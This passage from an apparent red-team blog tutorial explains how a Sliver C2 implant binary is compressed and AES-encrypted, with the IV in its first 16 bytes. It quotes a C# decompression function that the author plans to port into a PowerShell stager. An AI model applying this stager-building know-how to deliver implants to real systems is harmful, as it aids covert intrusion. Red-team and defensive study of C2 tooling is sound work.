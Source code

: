 *Fig 10: Compressed and encrypted binary analysis using wireshark*

As you can see, the size of the binary is now 9686 kB, compared to 18 MB before. Additionally, we can observe that the first 16 bytes are the AES IV we provided in the stager configuration. This tells us two things: First, the data is compressed and then encrypted, meaning we have to decrypt and then decompress the binary we download. Second, since the first 16 bytes contain the IV, we must process the data we download by stripping the first 16 bytes so it can be properly decrypted.

This time sliver did not provide a decompression function in their documentation, but I found a [blog post](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8) from @youcef.s.kelouaz that contained a decompression function written in C# for the Gzip and deflate 9 compression functions. In true hacker fashion let's analyze the source and rewrite it in powershell syntax.
```
public static byte[] Decompress(byte[] data, string CompressionAlgorithm)  
        {  
            byte[] decompressedArray = null;  
            if (CompressionAlgorithm == "deflate9")  
            {  
                using (MemoryStream decompressedStream = new MemoryStream())  
                {  
                    using (MemoryStream compressStream = new MemoryStream(data))  
                    {  
                        using (DeflateStream deflateStream = new                                           DeflateStream(compressStream, CompressionMode.Decompress)) 
                        {  
                            deflateStream.CopyTo(decompressedStream);  
                        }  
                    }  
                    decompressedArray = decompressedStream.ToArray();  
                }  
                return decompressedArray;  
            }  
            else if (CompressionAlgorithm == "gzip")  
            {  
                using (MemoryStream decompressedStream = new MemoryStream())  
                {  
                    using (MemoryStream compressStream = new MemoryStream(data))  
                    {  
                        using (GZipStream gzipStream = new                                                 GZipStream(compressStream, CompressionMode.Decompress))  
                        {  
                            gzipStream.CopyTo(decompressedStream);  
                        }  
                    }  
                    decompressedArray = decompressedStream.ToArray();  
                }  
                return decompressedArray;  
            }  
            else  
            { 
                return data;  
            }  
        }
```
